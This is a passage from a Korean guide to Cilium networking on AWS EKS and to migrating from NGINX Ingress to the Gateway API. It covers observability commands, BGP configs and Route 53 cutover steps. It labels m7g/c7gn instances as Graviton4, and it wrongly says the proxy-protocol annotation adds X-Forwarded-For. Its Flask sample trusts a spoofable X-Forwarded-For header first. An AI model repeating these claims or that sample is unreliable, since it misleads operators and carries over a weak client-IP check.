# 지원 드라이버: ixgbe, i40e, mlx4, mlx5, ena (AWS Nitro)

# XDP 활성화 확인
ip link show eth0 | grep xdp
```

**성능 향상:**
- 패킷 필터링 성능 10배 이상 향상
- DDoS 방어 시 CPU 사용량 80% 감소
- AWS ENA 드라이버 (Nitro 인스턴스)에서 완벽 지원

#### 인스턴스 타입 고려사항

**네트워크 성능 우선 인스턴스 추천:**

| 인스턴스 타입 | vCPU | 메모리 | 네트워크 대역폭 | ENI | IP/ENI | 권장 용도 |
|---------------|------|--------|-----------------|-----|--------|-----------|
| **m7g.xlarge** | 4 | 16GB | 최대 12.5Gbps | 4 | 15 | 범용, 비용 효율 |
| **c7gn.xlarge** | 4 | 8GB | 최대 30Gbps | 4 | 15 | **고성능 게이트웨이** |
| **m7g.2xlarge** | 8 | 32GB | 최대 15Gbps | 4 | 15 | 중규모 워크로드 |
| **c7gn.4xlarge** | 16 | 32GB | 최대 50Gbps | 8 | 30 | **대규모 트래픽** |
| **m7g.8xlarge** | 32 | 128GB | 25Gbps | 8 | 30 | 고밀도 파드 |
| **c7gn.12xlarge** | 48 | 96GB | 100Gbps | 15 | 50 | **초고성능** |

**Graviton4 (G시리즈) 선택 이유:**
- x86 대비 40% 가격 대비 성능 향상
- 60% 에너지 효율 개선
- eBPF JIT 최적화
- Cilium과 완벽한 호환성

**Network Optimized (n 시리즈) 선택 기준:**
- Gateway 노드 전용으로 사용
- 초당 10만 RPS 이상 트래픽
- 레이턴시 1ms 미만 요구사항

:::tip
Gateway 전용 노드 그룹을 별도로 구성하여 `c7gn` 시리즈를 사용하고, 일반 워크로드는 `m7g` 시리즈를 사용하는 하이브리드 구성을 권장합니다.

```yaml
# nodeSelector 예시
nodeSelector:
  role: gateway
  instance-type: c7gn.xlarge
```
:::

### 7.7 운영 및 관측성

Cilium의 강력한 관측성 도구인 Hubble을 활용한 운영 가이드입니다.

#### Hubble 관측성

**실시간 플로우 관측**

```bash
# Hubble CLI 설치
brew install hubble

# 또는 직접 다운로드
HUBBLE_VERSION=$(curl -s https://raw.githubusercontent.com/cilium/hubble/master/stable.txt)
curl -L --remote-name-all https://github.com/cilium/hubble/releases/download/$HUBBLE_VERSION/hubble-linux-amd64.tar.gz{,.sha256sum}
sudo tar xzvfC hubble-linux-amd64.tar.gz /usr/local/bin

# 포트 포워딩 설정
cilium hubble port-forward &

# 실시간 플로우 스트림 (모든 네임스페이스)
hubble observe --all

# 특정 파드의 플로우만 필터링
hubble observe --pod default/frontend-5d5c7b6d8-abc12

# HTTP 트래픽만 필터링
hubble observe --protocol http

# Drop된 패킷 모니터링
hubble observe --verdict DROPPED

# 특정 네임스페이스 간 트래픽
hubble observe --from-namespace production --to-namespace database
```

**출력 예시:**
```
Feb 12 10:23:45.123: default/frontend-abc12:8080 -> default/backend-xyz34:9090 http-request FORWARDED (HTTP/2 GET /api/users)
Feb 12 10:23:45.127: default/backend-xyz34:9090 <- default/frontend-abc12:8080 http-response FORWARDED (HTTP/2 200 4.2ms)
Feb 12 10:23:45.130: default/frontend-abc12 -> 8.8.8.8:53 dns-request FORWARDED (A query example.com)
Feb 12 10:23:45.145: 8.8.8.8:53 -> default/frontend-abc12 dns-response FORWARDED (A 93.184.216.34)
```

**서비스 맵 생성**

```bash
# 서비스 의존성 맵 생성 (GraphViz 형식)
hubble observe --all --output jsonpb | \
  hubble-flow-graph > service-map.dot

# PNG 이미지로 변환
dot -Tpng service-map.dot -o service-map.png

# 실시간 Web UI 접근
cilium hubble ui
# 브라우저에서 http://localhost:12000 접속
```

**L7 프로토콜 가시성**

```bash
# HTTP 메서드별 통계
hubble observe --protocol http --output json | \
  jq -r '.l7.http.method' | \
  sort | uniq -c | sort -rn

# HTTP 응답 코드 분포
hubble observe --protocol http --output json | \
  jq -r '.l7.http.code' | \
  sort | uniq -c | sort -rn

# gRPC 메서드 호출 추적
hubble observe --protocol grpc

# Kafka 토픽 트래픽
hubble observe --protocol kafka
```

#### Prometheus 메트릭

**Agent 메트릭 (각 노드별)**

```promql
# 초당 처리 패킷 수
rate(cilium_forward_count_total[5m])

# Drop된 패킷 비율
rate(cilium_drop_count_total[5m]) / rate(cilium_forward_count_total[5m])

# eBPF 맵 사용률
cilium_bpf_map_ops_total

# NAT 테이블 사용률
cilium_nat_max_entries_used / cilium_nat_max_entries_total * 100

# 노드 간 레이턴시 (P99)
histogram_quantile(0.99, rate(cilium_network_round_trip_time_seconds_bucket[5m]))
```

**Gateway 메트릭 (Envoy)**

```promql
# 초당 요청 수 (RPS)
rate(envoy_http_downstream_rq_total{envoy_cluster_name="cilium-gateway"}[5m])

# 응답 레이턴시 P95
histogram_quantile(0.95, rate(envoy_http_downstream_rq_time_bucket[5m]))

# 5xx 에러율
sum(rate(envoy_http_downstream_rq_xx{envoy_response_code_class="5"}[5m]))
/
sum(rate(envoy_http_downstream_rq_xx[5m]))

# 백엔드 연결 실패
rate(envoy_cluster_upstream_cx_connect_fail[5m])

# 활성 연결 수
envoy_http_downstream_cx_active
```

**ENI 메트릭**

```promql
# 노드별 사용 중인 ENI 수
cilium_operator_eni_attached

# 사용 가능한 IP 주소 수
cilium_operator_eni_available_ips

# IP 할당 속도
rate(cilium_operator_eni_ip_allocations[5m])

# ENI 할당 에러
rate(cilium_operator_eni_allocation_errors[5m])
```

#### Grafana 대시보드

**공식 대시보드 가져오기**

```bash
# Cilium 공식 대시보드 (Grafana ID: 16611)
# Grafana UI > Dashboards > Import > 16611 입력

# 또는 JSON 파일 직접 다운로드
curl -o cilium-dashboard.json https://grafana.com/api/dashboards/16611/revisions/latest/download

# Hubble 대시보드 (Grafana ID: 16612)
curl -o hubble-dashboard.json https://grafana.com/api/dashboards/16612/revisions/latest/download
```

**주요 대시보드 패널:**
- Network Throughput (in/out bytes per second)
- Packet Drop Rate by Reason
- Connection Rate (new connections per second)
- NAT Table Utilization
- eBPF Map Pressure
- Gateway Request Rate and Latency
- Top Talkers (most active pods)
- Service Dependency Map

#### Source IP 보존

NLB IP 타겟 모드에서는 클라이언트 IP가 자동으로 보존되지만, Envoy에서 추가 헤더를 통해 확인할 수 있습니다.

**X-Forwarded-For 헤더 추가**

```yaml
# gateway-with-xff.yaml
apiVersion: gateway.networking.k8s.io/v1
kind: Gateway
metadata:
  name: cilium-gateway
  annotations:
    # NLB IP 타겟 모드 (Source IP 보존)
    service.beta.kubernetes.io/aws-load-balancer-nlb-target-type: "ip"

    # Envoy에서 X-Forwarded-For 헤더 추가
    service.beta.kubernetes.io/aws-load-balancer-proxy-protocol: "*"
spec:
  gatewayClassName: cilium
  listeners:
    - name: https
      protocol: HTTPS
      port: 443
      tls:
        mode: Terminate
        certificateRefs:
          - name: tls-cert
```

**백엔드에서 클라이언트 IP 읽기 (Python 예시)**

```python
from flask import Flask, request

app = Flask(__name__)

@app.route('/api/info')
def get_client_ip():
    # 1순위: X-Forwarded-For 헤더 (프록시 체인)
    if 'X-Forwarded-For' in request.headers:
        client_ip = request.headers['X-Forwarded-For'].split(',')[0].strip()

    # 2순위: X-Envoy-External-Address (Envoy가 추가)
    elif 'X-Envoy-External-Address' in request.headers:
        client_ip = request.headers['X-Envoy-External-Address']

    # 3순위: 직접 연결 (NLB IP 타겟 모드)
    else:
        client_ip = request.remote_addr

    return {
        "client_ip": client_ip,
        "headers": dict(request.headers)
    }
```

#### 주요 검증 명령어

```bash
# 1. Cilium 상태 확인
cilium status --wait

# 2. Gateway 상태 확인
kubectl get gateway cilium-gateway -o jsonpath='{.status.conditions[?(@.type=="Programmed")].status}'
# 출력: True

# 3. HTTPRoute 상태 확인
kubectl get httproute -A -o wide

# 4. Envoy 리스너 확인
kubectl exec -n kube-system ds/cilium -- cilium envoy admin listeners

# 5. 백엔드 엔드포인트 확인
kubectl exec -n kube-system ds/cilium -- cilium service list

# 6. ENI 할당 상태
kubectl get ciliumnodes -o jsonpath='{range .items[*]}{.metadata.name}{"\t"}{.status.eni.available}{"\t"}{.status.ipam.used}{"\n"}{end}'

# 7. 플로우 모니터링 (30초간)
hubble observe --all --since 30s

# 8. 네트워크 정책 검증
cilium endpoint list

# 9. BPF 맵 통계
kubectl exec -n kube-system ds/cilium -- cilium bpf metrics list

# 10. 연결성 테스트
cilium connectivity test --test egress-gateway,to-cidr
```

### 7.8 BGP Control Plane v2

Cilium BGP Control Plane v2는 온프레미스 데이터센터나 하이브리드 환경에서 LoadBalancer IP를 BGP로 광고하는 기능입니다.

:::info
AWS EKS에서는 NLB를 사용하므로 BGP가 필수는 아니지만, 하이브리드 클라우드 환경에서 온프레미스와 EKS 간 트래픽 라우팅이 필요한 경우 유용합니다.
:::

#### CiliumBGPPeeringPolicy CRD

```yaml
# bgp-peering-policy.yaml
apiVersion: cilium.io/v2alpha1
kind: CiliumBGPPeeringPolicy
metadata:
  name: bgp-policy
spec:
  # 어느 노드에서 BGP 피어링을 수행할지 선택
  nodeSelector:
    matchLabels:
      role: gateway

  # BGP 가상 라우터 설정
  virtualRouters:
    - localASN: 64512  # EKS 클러스터의 AS 번호
      exportPodCIDR: false  # Pod CIDR은 광고하지 않음 (ENI 모드)

      # 광고할 서비스 선택
      serviceSelector:
        matchLabels:
          bgp-advertise: "true"

      # BGP 피어 목록 (온프레미스 라우터)
      neighbors:
        - peerAddress: 192.168.1.1/32  # 피어 라우터 IP
          peerASN: 64500                # 피어 AS 번호
          eBGPMultihopTTL: 10

          # 연결 유지 타이머
          connectRetryTimeSeconds: 120
          holdTimeSeconds: 90
          keepAliveTimeSeconds: 30

        - peerAddress: 192.168.1.2/32
          peerASN: 64500
          eBGPMultihopTTL: 10
```

#### LoadBalancer IP 광고

```yaml
# service-with-bgp.yaml
apiVersion: v1
kind: Service
metadata:
  name: gateway-service
  namespace: default
  labels:
    bgp-advertise: "true"  # BGP로 광고
  annotations:
    # EKS에서는 NLB 사용
    service.beta.kubernetes.io/aws-load-balancer-type: "nlb"

    # Cilium BGP 설정
    io.cilium/bgp-announce: "true"
    io.cilium/bgp-local-pref: "100"
spec:
  type: LoadBalancer
  selector:
    app: cilium-gateway
  ports:
    - name: https
      port: 443
      targetPort: 443
      protocol: TCP
```

#### 하이브리드 환경 지원



**트래픽 흐름:**
1. 온프레미스 클라이언트가 EKS의 서비스 IP (a.b.c.d)로 요청
2. 온프레미스 코어 라우터가 BGP 라우팅 테이블 조회
3. Direct Connect/VPN을 통해 EKS Gateway 노드로 전달
4. Cilium Gateway가 요청을 처리하여 백엔드 파드로 라우팅

**BGP 상태 확인:**

```bash
# BGP 피어 상태 확인
kubectl get ciliumbgppeeringstatus

# 광고 중인 경로 확인
kubectl exec -n kube-system ds/cilium -- cilium bgp routes

# 피어 연결 상태
kubectl exec -n kube-system ds/cilium -- cilium bgp peers
```

**출력 예시:**
```
Local AS   Peer AS   Peer Address   Status    Uptime    Prefixes
64512      64500     192.168.1.1    Established  2h34m     1
64512      64500     192.168.1.2    Established  2h34m     1

Advertised Routes:
10.0.100.50/32 via 172.31.1.10 (self)
```

---

## 8. 마이그레이션 실행 전략

### 8.1 사전 요구사항: CRD 설치

모든 Gateway API 구현체는 공통적으로 Kubernetes Gateway API CRDs를 필요로 합니다.

#### Gateway API 표준 CRDs

```bash
# Gateway API v1.4.0 표준 설치
kubectl apply -f https://github.com/kubernetes-sigs/gateway-api/releases/download/v1.4.0/standard-install.yaml

# 실험적(Experimental) 기능 포함 설치 (선택사항)
kubectl apply -f https://github.com/kubernetes-sigs/gateway-api/releases/download/v1.4.0/experimental-install.yaml
```

**설치되는 CRDs:**
- `gatewayclasses.gateway.networking.k8s.io`
- `gateways.gateway.networking.k8s.io`
- `httproutes.gateway.networking.k8s.io`
- `referencegrants.gateway.networking.k8s.io`
- `grpcroutes.gateway.networking.k8s.io` (Experimental)
- `tcproutes.gateway.networking.k8s.io` (Experimental)
- `tlsroutes.gateway.networking.k8s.io` (Experimental)
- `udproutes.gateway.networking.k8s.io` (Experimental)

#### 각 컨트롤러별 추가 설치

**AWS Native (ALB + NLB Gateway)**

```bash
# AWS Load Balancer Controller v3.0+ 설치 (Gateway API 지원)
helm repo add eks https://aws.github.io/eks-charts
helm repo update

# IRSA (IAM Role for Service Account) 생성
eksctl create iamserviceaccount \
  --cluster=<클러스터명> \
  --namespace=kube-system \
  --name=aws-load-balancer-controller \
  --role-name AmazonEKSLoadBalancerControllerRole \
  --attach-policy-arn=arn:aws:iam::aws:policy/AWSLoadBalancerControllerIAMPolicy \
  --approve

# Helm 설치
helm install aws-load-balancer-controller eks/aws-load-balancer-controller \
  -n kube-system \
  --set clusterName=<클러스터명> \
  --set serviceAccount.create=false \
  --set serviceAccount.name=aws-load-balancer-controller \
  --set enableGatewayAPI=true  # Gateway API 활성화 (핵심!)

# 설치 확인
kubectl get deployment -n kube-system aws-load-balancer-controller
```

**NGINX Gateway Fabric**

```bash
# NGINX Gateway Fabric 설치
kubectl apply -f https://github.com/nginxinc/nginx-gateway-fabric/releases/download/v1.6.0/crds.yaml
kubectl apply -f https://github.com/nginxinc/nginx-gateway-fabric/releases/download/v1.6.0/nginx-gateway.yaml

# 설치 확인
kubectl get pods -n nginx-gateway
kubectl get gatewayclass nginx
```

**Envoy Gateway**

```bash
# Envoy Gateway 설치
helm install eg oci://docker.io/envoyproxy/gateway-helm \
  --version v1.3.0 \
  --namespace envoy-gateway-system \
  --create-namespace

# 설치 확인
kubectl get pods -n envoy-gateway-system
kubectl get gatewayclass envoy-gateway
```

**Cilium Gateway API**

Cilium 설치 시 `gatewayAPI.enabled=true`로 이미 활성화되어 있으므로 별도 설치 불필요.

```bash
# GatewayClass 확인
kubectl get gatewayclass cilium
```

### 8.2 5-Phase 마이그레이션 프로세스



### 8.3 Phase별 상세 가이드

#### Phase 1: 준비 (1-2주)

**Step 1.1: 현재 Ingress 인벤토리 수집**

```bash
# 모든 Ingress 리소스 목록 추출
kubectl get ingress -A -o json > ingress-inventory.json

# 주요 정보 요약
cat ingress-inventory.json | jq -r '
  .items[] |
  {
    namespace: .metadata.namespace,
    name: .metadata.name,
    class: .spec.ingressClassName,
    hosts: [.spec.rules[].host],
    paths: [.spec.rules[].http.paths[].path],
    tls: (.spec.tls != null)
  }
' > ingress-summary.json

# 통계 요약
echo "=== Ingress Statistics ==="
echo "Total Ingress: $(cat ingress-inventory.json | jq '.items | length')"
echo "With TLS: $(cat ingress-inventory.json | jq '[.items[] | select(.spec.tls != null)] | length')"
echo "Unique Hosts: $(cat ingress-inventory.json | jq -r '[.items[].spec.rules[].host] | unique | length')"
```

**Step 1.2: 기능 매핑 (NGINX Ingress → Gateway API)**

| NGINX Ingress 기능 | Gateway API 대안 | 비고 |
|---------------------|------------------|------|
| `host: example.com` | `HTTPRoute.spec.hostnames` | 직접 매핑 |
| `path: /api` | `HTTPRoute.spec.rules[].matches[].path` | 직접 매핑 |
| `pathType: Prefix` | `path.type: PathPrefix` | 동일 |
| `annotations: rewrite-target` | `filters[].type: URLRewrite` | 표준화됨 |
| `annotations: rate-limit` | Policy Attachment (구현체별 상이) | 표준화 진행 중 |
| `annotations: cors-*` | Policy Attachment | 표준화 진행 중 |
| `annotations: auth-*` | Policy Attachment 또는 외부 인증 | OAuth2-Proxy 등 권장 |
| `annotations: ssl-redirect` | Gateway TLS 리스너 자동 처리 | 자동화됨 |

**Step 1.3: 리스크 평가**

```yaml
# risk-assessment.yaml
risks:
  - id: RISK-001
    category: 기능 누락
    description: "NGINX rate-limit 어노테이션의 직접 대안 없음"
    severity: MEDIUM
    mitigation: "AWS WAF 또는 Envoy Rate Limit 서비스 사용"

  - id: RISK-002
    category: 다운타임
    description: "Cilium ENI 모드 마이그레이션 시 다운타임 발생"
    severity: HIGH
    mitigation: "블루-그린 클러스터 전환 또는 유지보수 창 설정"

  - id: RISK-003
    category: 학습 곡선
    description: "팀의 Gateway API 경험 부족"
    severity: LOW
    mitigation: "Phase 2 PoC에서 충분한 테스트 기간 확보"
```

#### Phase 2: 구축 (1-2주)

**Step 2.1: CRD 설치 (8.1 섹션 참조)**

위의 "사전 요구사항" 섹션대로 CRD와 컨트롤러를 설치합니다.

**Step 2.2: 테스트 환경 PoC**

```yaml
# poc-gateway.yaml (개발 환경)
apiVersion: gateway.networking.k8s.io/v1
kind: Gateway
metadata:
  name: poc-gateway
  namespace: dev
spec:
  gatewayClassName: cilium  # 또는 nginx, envoy-gateway, aws
  listeners:
    - name: http
      protocol: HTTP
      port: 80

---
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: poc-httproute
  namespace: dev
spec:
  parentRefs:
    - name: poc-gateway
  hostnames:
    - "poc.dev.example.com"
  rules:
    - matches:
        - path:
            type: PathPrefix
            value: /
      backendRefs:
        - name: test-service
          port: 8080
```

```bash
# PoC 배포
kubectl apply -f poc-gateway.yaml

# 외부 IP 확인
kubectl get gateway poc-gateway -n dev -o jsonpath='{.status.addresses[0].value}'

# DNS 레코드 추가 (Route 53 예시)
GATEWAY_IP=$(kubectl get gateway poc-gateway -n dev -o jsonpath='{.status.addresses[0].value}')
aws route53 change-resource-record-sets \
  --hosted-zone-id Z1234567890ABC \
  --change-batch "{
    \"Changes\": [{
      \"Action\": \"CREATE\",
      \"ResourceRecordSet\": {
        \"Name\": \"poc.dev.example.com\",
        \"Type\": \"A\",
        \"TTL\": 60,
        \"ResourceRecords\": [{\"Value\": \"$GATEWAY_IP\"}]
      }
    }]
  }"

# 기능 테스트
curl -v http://poc.dev.example.com/
```

**Step 2.3: 성능 벤치마크 (PoC 환경)**

```bash
# k6 부하 테스트 스크립트
cat <<EOF > poc-benchmark.js
import http from 'k6/http';
import { check } from 'k6';

export let options = {
  stages: [
    { duration: '2m', target: 100 },  // 100 VU까지 램프업
    { duration: '5m', target: 100 },  // 5분간 유지
    { duration: '2m', target: 0 },    // 램프다운
  ],
  thresholds: {
    'http_req_duration': ['p(95)<200'],  // P95 레이턴시 200ms 미만
    'http_req_failed': ['rate<0.01'],     // 에러율 1% 미만
  },
};

export default function () {
  const res = http.get('http://poc.dev.example.com/api/health');
  check(res, {
    'status is 200': (r) => r.status === 200,
    'response time < 200ms': (r) => r.timings.duration < 200,
  });
}
EOF

# k6 실행
k6 run poc-benchmark.js
```

#### Phase 3: 병렬 운영 (2-4주)

**Step 3.1: 프로덕션 Gateway 생성**

```yaml
# production-gateway.yaml
apiVersion: gateway.networking.k8s.io/v1
kind: Gateway
metadata:
  name: production-gateway
  namespace: infra
  annotations:
    # AWS Native인 경우
    service.beta.kubernetes.io/aws-load-balancer-type: "nlb"
    service.beta.kubernetes.io/aws-load-balancer-scheme: "internet-facing"
spec:
  gatewayClassName: cilium
  listeners:
    - name: https
      protocol: HTTPS
      port: 443
      hostname: "*.example.com"
      tls:
        mode: Terminate
        certificateRefs:
          - kind: Secret
            name: wildcard-tls-cert
            namespace: infra
      allowedRoutes:
        namespaces:
          from: All
```

```bash
# 배포
kubectl apply -f production-gateway.yaml

# 상태 확인 (Programmed=True까지 대기)
kubectl wait --for=condition=Programmed gateway/production-gateway -n infra --timeout=5m

# 외부 주소 확인
kubectl get gateway production-gateway -n infra -o jsonpath='{.status.addresses[0].value}'
```

**Step 3.2: HTTPRoute 생성 (병렬 운영)**

기존 NGINX Ingress를 유지하면서, 동일한 백엔드를 가리키는 HTTPRoute를 생성합니다.

```yaml
# parallel-httproute.yaml
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: api-route
  namespace: production
spec:
  parentRefs:
    - name: production-gateway
      namespace: infra
  hostnames:
    - "api.example.com"
  rules:
    - matches:
        - path:
            type: PathPrefix
            value: /api/v1
      backendRefs:
        - name: api-service  # 기존 Ingress와 동일한 Service
          port: 8080
```

**Step 3.3: 내부 검증 (프록시 테스트)**

```bash
# Gateway의 Cluster IP로 직접 테스트 (외부 DNS 변경 전)
GATEWAY_SVC=$(kubectl get svc -n infra -l gateway.networking.k8s.io/gateway-name=production-gateway -o jsonpath='{.items[0].metadata.name}')
GATEWAY_IP=$(kubectl get svc $GATEWAY_SVC -n infra -o jsonpath='{.status.loadBalancer.ingress[0].ip}')

# Host 헤더를 포함한 curl 테스트
curl -H "Host: api.example.com" https://$GATEWAY_IP/api/v1/health --insecure

# 응답 시간 비교 (NGINX Ingress vs Gateway API)
echo "=== NGINX Ingress ==="
curl -w "Time: %{time_total}s\n" -o /dev/null -s https://api.example.com/api/v1/health

echo "=== Gateway API (직접 접근) ==="
curl -w "Time: %{time_total}s\n" -o /dev/null -s -H "Host: api.example.com" https://$GATEWAY_IP/api/v1/health --insecure
```

#### Phase 4: 전환 (2-4주, 점진적)

**Step 4.1: DNS 가중치 라우팅 (10% 전환)**

```bash
# Route 53 가중치 레코드 생성
# 기존 NGINX Ingress (가중치 90)
aws route53 change-resource-record-sets \
  --hosted-zone-id Z1234567890ABC \
  --change-batch '{
    "Changes": [{
      "Action": "UPSERT",
      "ResourceRecordSet": {
        "Name": "api.example.com",
        "Type": "A",
        "SetIdentifier": "nginx-ingress",
        "Weight": 90,
        "TTL": 60,
        "ResourceRecords": [{"Value": "203.0.113.10"}]
      }
    }]
  }'

# 새 Gateway API (가중치 10)
aws route53 change-resource-record-sets \
  --hosted-zone-id Z1234567890ABC \
  --change-batch "{
    \"Changes\": [{
      \"Action\": \"UPSERT\",
      \"ResourceRecordSet\": {
        \"Name\": \"api.example.com\",
        \"Type\": \"A\",
        \"SetIdentifier\": \"gateway-api\",
        \"Weight\": 10,
        \"TTL\": 60,
        \"ResourceRecords\": [{\"Value\": \"$GATEWAY_IP\"}]
      }
    }]
  }"

# 24시간 모니터링 (에러율, 레이턴시, 처리량)
# - CloudWatch 대시보드 확인
# - Grafana 메트릭 비교
# - 에러 로그 확인
```

**Step 4.2: DNS 50% 전환**

```bash
# 이상 없으면 가중치 조정
aws route53 change-resource-record-sets \
  --hosted-zone-id Z1234567890ABC \
  --change-batch '{
    "Changes": [
      {
        "Action": "UPSERT",
        "ResourceRecordSet": {
          "Name": "api.example.com",
          "Type": "A",
          "SetIdentifier": "nginx-ingress",
          "Weight": 50,
          "TTL": 60,
          "ResourceRecords": [{"Value": "203.0.113.10"}]
        }
      },
      {
        "Action": "UPSERT",
        "ResourceRecordSet": {
          "Name": "api.example.com",
          "Type": "A",
          "SetIdentifier": "gateway-api",
          "Weight": 50,
          "TTL": 60,
          "ResourceRecords": [{"Value": "'"$GATEWAY_IP"'"}]
        }
      }
    ]
  }'

# 1주일 모니터링
```

**Step 4.3: DNS 100% 전환**

```bash
# 최종 전환 (NGINX Ingress 가중치 0)
aws route53 change-resource-record-sets \
  --hosted-zone-id Z1234567890ABC \
  --change-batch '{
    "Changes": [
      {
        "Action": "DELETE",
        "ResourceRecordSet": {
          "Name": "api.example.com",
          "Type": "A",
          "SetIdentifier": "nginx-ingress",
          "Weight": 50,
          "TTL": 60,
          "ResourceRecords": [{"Value": "203.0.113.10"}]
        }
      },
      {
        "Action": "UPSERT",
        "ResourceRecordSet": {
          "Name": "api.example.com",
          "Type": "A",
          "SetIdentifier": "gateway-api",
          "Weight": 100,
          "TTL": 300,
          "ResourceRecords": [{"Value": "'"$GATEWAY_IP"'"}]
        }
      }
    ]
  }'
```

#### Phase 5: 완료 (1주)

**Step 5.1: NGINX Ingress 백업**

```bash
# 모든 Ingress 리소스 백업
kubectl get ingress -A -o yaml > backup-ingress-resources-$(date +%Y%m%d).yaml

# NGINX Ingress Controller 구성 백업
kubectl get deployment ingress-nginx-controller -n ingress-nginx -o yaml > backup-nginx-controller.yaml
kubectl get cm ingress-nginx-controller -n ingress-nginx -o yaml > backup-nginx-configmap.yaml

# S3에 백업 업로드
aws s3 cp backup-ingress-resources-$(date +%Y%m%d).yaml s3://my-backup-bucket/ingress-migration/
```

**Step 5.2: NGINX Ingress 제거 (2주 후)**

```bash
# 2주간 모니터링 후 이상 없으면 제거
kubectl delete ingress --all -A  # Ingress 리소스 삭제
helm uninstall ingress-nginx -n ingress-nginx  # NGINX Controller 제거
kubectl delete namespace ingress-nginx
```

**Step 5.3: 문서화**

```markdown
# migration-report.md

## 마이그레이션 완료 보고서

### 기본 정보
- 시작일: 2026-01-15
- 완료일: 2026-02-28
- 총 소요 기간: 6주
- 선택한 솔루션: Cilium Gateway API (ENI 모드)

### 마이그레이션 대상
- 총 Ingress 수: 47개
- 총 호스트 수: 23개
- TLS 인증서: 12개

### 성능 비교
| 지표 | NGINX Ingress | Cilium Gateway | 개선율 |
|------|---------------|----------------|--------|
| P95 Latency | 45ms | 12ms | 73% 감소 |
| RPS (단일 인스턴스) | 8,500 | 24,000 | 182% 증가 |
| CPU 사용률 | 35% | 18% | 49% 감소 |

### 이슈 및 해결
1. **문제**: TLS 인증서 자동 갱신 미작동
   - **원인**: cert-manager의 Ingress 어노테이션 의존성
   - **해결**: Gateway용 Certificate CRD로 전환

2. **문제**: 일부 경로에서 404 에러
   - **원인**: PathPrefix 매칭 로직 차이
   - **해결**: 정확한 경로 매칭 규칙 수정

### 교훈
- Phase 3 병렬 운영 기간을 충분히 확보하는 것이 중요
- DNS TTL을 짧게 설정하여 빠른 롤백 가능하도록 준비
- 각 Phase마다 명확한 성공 기준 설정 필요
```

### 8.4 검증 스크립트

```bash
#!/bin/bash
# validate-httproute.sh

set -e

NAMESPACE=${1:-default}
HTTPROUTE_NAME=${2:-}

if [ -z "$HTTPROUTE_NAME" ]; then
  echo "Usage: $0 <namespace> <httproute-name>"
  exit 1
fi

echo "=== HTTPRoute Validation ==="
echo "Namespace: $NAMESPACE"
echo "HTTPRoute: $HTTPROUTE_NAME"
echo ""

# 1. HTTPRoute 존재 확인
if ! kubectl get httproute $HTTPROUTE_NAME -n $NAMESPACE &>/dev/null; then
  echo "❌ HTTPRoute not found"
  exit 1
fi
echo "✅ HTTPRoute exists"

# 2. Accepted Condition 확인
ACCEPTED=$(kubectl get httproute $HTTPROUTE_NAME -n $NAMESPACE -o jsonpath='{.status.parents[0].conditions[?(@.type=="Accepted")].status}')
if [ "$ACCEPTED" != "True" ]; then
  REASON=$(kubectl get httproute $HTTPROUTE_NAME -n $NAMESPACE -o jsonpath='{.status.parents[0].conditions[?(@.type=="Accepted")].reason}')
  echo "❌ HTTPRoute not accepted. Reason: $REASON"
  exit 1
fi
echo "✅ HTTPRoute accepted by Gateway"

# 3. Programmed Condition 확인
PROGRAMMED=$(kubectl get httproute $HTTPROUTE_NAME -n $NAMESPACE -o jsonpath='{.status.parents[0].conditions[?(@.type=="Programmed")].status}')
if [ "$PROGRAMMED" != "True" ]; then
  REASON=$(kubectl get httproute $HTTPROUTE_NAME -n $NAMESPACE -o jsonpath='{.status.parents[0].conditions[?(@.type=="Programmed")].reason}')
  echo "❌ HTTPRoute not programmed. Reason: $REASON"
  exit 1
fi
echo "✅ HTTPRoute programmed in dataplane"

# 4. Backend 서비스 확인
BACKEND_SERVICES=$(kubectl get httproute $HTTPROUTE_NAME -n $NAMESPACE -o jsonpath='{.spec.rules[*].backendRefs[*].name}')
for svc in $BACKEND_SERVICES; do
  if ! kubectl get service $svc -n $NAMESPACE &>/dev/null; then
